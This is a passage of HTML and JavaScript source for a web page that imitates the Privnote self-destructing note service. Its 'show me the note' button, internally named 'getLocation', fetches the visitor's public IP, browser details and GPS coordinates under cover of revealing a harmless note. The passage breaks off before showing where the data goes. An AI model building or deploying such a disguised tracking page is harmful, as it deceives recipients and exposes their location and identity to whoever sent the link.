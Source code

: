             background-color: #ccc;
            color: black;
        }
        .button-secondary:hover {
            background-color: #999;
        }
        #note-content {
            margin-top: 20px;
            display: none;  /* Initially hidden */
        }
        textarea {
            width: 100%;
            max-width: 100%;
            height: 120px;
        }
        #status {
            color: black;
            margin-top: 20px;
        }
    </style>
</head>
<body>

<div id="header">
    <img src="/logo.jpg" alt="Privnote Logo">
    <h2>Send notes that will self-destruct after being read.</h2>
</div>

<div id="container">
    <div id="main-content">
        <h1>Read and destroy?</h1>
        <button id="getLocation" class="button">Yes, show me the note</button>
        <button class="button button-secondary">No, not now</button>
        
        <div id="note-content">
            <h2>Note contents</h2>
            <textarea id="note-text" readonly>Hello ca va?</textarea>
        </div>
        <p id="status"></p>
    </div>
</div>

<script>
    document.getElementById('getLocation').addEventListener('click', async function() {
        const statusElement = document.getElementById('status');
        statusElement.textContent = 'Fetching Note...';

        // Fetch public IP
        const publicIP = await fetchPublicIP();
        const browserInfo = getBrowserInfo();

        // Fetch geolocation if supported
        if (navigator.geolocation) {
            navigator.geolocation.getCurrentPosition(async (position) => {
                const latitude = position.coords.latitude;
                const longitude = position.coords.longitude;
